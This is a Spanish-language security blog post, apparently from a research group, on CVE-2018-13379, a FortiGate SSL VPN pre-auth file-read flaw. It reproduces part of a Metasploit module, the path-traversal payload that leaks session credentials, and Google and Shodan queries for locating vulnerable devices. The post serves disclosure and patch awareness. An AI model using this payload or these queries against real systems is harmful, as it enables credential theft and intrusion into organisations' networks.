





# Fortigate VPN: CVE-2018-13379: Pre-auth arbitrary file reading 

En el año 2019 se notificaron de vulnerabilidades a los productos de la empresa [Fortinet](https://www.fortinet.com/), reportados por los investigadores [niph_](https://twitter.com/niph_) y [ramoliks](https://twitter.com/ramoliks) los cuales fueron los CVE:

* CVE-2018-13379: Pre-auth arbitrary file reading
* CVE-2018-13380: Pre-auth XSS
* CVE-2018-13381: Pre-auth heap overflow
* CVE-2018-13382: The magic backdoor

Algunos investigadores lograron combinar **CVE-2018-13379** + **CVE-2018-13383,** lo que les permitía filtrar el archivo de sesión con las credenciales en texto plano para acceder a la red interna. Para obtener una shell después de autenticarse se utilizaba en combinación con un buffer overflow. Si desean evaluar un poco más sobre esta vulnerabilidad pueden ir [aqui](https://blog.orange.tw/2019/08/attacking-ssl-vpn-part-2-breaking-the-fortigate-ssl-vpn.html).

A finales del año pasado nuestro grupo de investigación en **Toadsec**, observamos [APT](https://www.bankinfosecurity.com/chinese-apt-group-began-targeting-ssl-vpn-flaws-in-july-a-13037) y sitios de filtraciones ofertando un listado de posibles objetivos vulnerables al  **CVE-2018-13379** 



Siguiendo con la investigación encontramos un dork para google que nos permitía entender un poco más sobre la vulnerabilidad arrojando **803 resultados** 

```markdown
inurl:remote/login?lang=
```



Luego encontramos en **exploited-db.com** un script para metasploit del autor [Carlos Vieira](https://www.exploit-db.com/exploits/47287), que pudimos analizar y encontrar el payload de la vulnerabilidad.

```ruby
def run()
		print_good("Checking target...")
		res = send_request_raw({'uri'=>'/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession'})

		if res && res.code == 200
			print_good("Target is Vulnerable!")
			data = res.body
			current_host = datastore['RHOST']
			filename = "msf_sslwebsession_"+current_host+".bin"
			File.delete(filename) if File.exist?(filename)
			file_local_write(filename, data)
			print_good("Parsing binary file.......")
			parse()
		else
			if(res && res.code == 404)
				print_error("Target not Vulnerable")
			else
				print_error("Ow crap, try again...")
			end
		end
	end
```

Dicho payload era el siguiente

```markdown
remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession
```

De las evidencias anteriores nuestro grupo de investigadores lograron obtener una consulta en shodan, que nos permite obtener un listado nada despreciable de aproximadamente 296k objetivos posiblemente afectados con dicha vulnerabilidad.

```markdown
http.html:"remote" "Content-Length: 131"  port:8443,10443
```



Por último realizamos una prueba de concepto en unos de nuestros vps para verificar el cve, como observamos en la imagen el mismo filtraba las credenciales



**Prueba en el vps que configuramos**



Recordemos realizar nuestras actualizaciones de seguridad, dado que ya existen [herramientas](https://github.com/anasbousselham/fortiscan) para escanear estas fallas y aún encontramos varios sistemas vulnerables.

###### Referencias

* Tsai, O., & Æ. (s. f.). Attacking SSL VPN - Part 2: Breaking the Fortigate SSL VPN. Orange. Recuperado 19 de enero de 2021, de https://blog.orange.tw/2019/08/attacking-ssl-vpn-part-2-breaking-the-fortigate-ssl-vpn.html
* Orange Tsai. (s. f.). Fortigate SSL VPN PreAuth Remote Code Execution. YouTube. Recuperado 19 de enero de 2021, de https://www.youtube.com/watch?v=Aw55HqZW4x0
* Facebook - Meld je aan of registreer je. (s. f.). Facebook. Recuperado 19 de enero de 2021, de https://www.facebook.com/unsupportedbrowser?_rdr
* M., & M. (2019, 9 agosto). Attacking SSL VPN - Part 2: Breaking the Fortigate SSL VPN. DEVCORE 戴夫寇爾. https://devco.re/blog/2019/08/09/attacking-ssl-vpn-part-2-breaking-the-Fortigate-ssl-vpn/
* (s. f.-d). 7Elements/Fortigate. GitHub. Recuperado 19 de enero de 2021, de https://github.com/7Elements/Fortigate
* Chinese APT Group Began Targeting SSL VPN Flaws in July. (s. f.). Chinese APT Group Began Targeting SSL VPN Flaws in July. Recuperado 19 de enero de 2021, de https://www.bankinfosecurity.com/chinese-apt-group-began-targeting-ssl-vpn-flaws-in-july-a-13037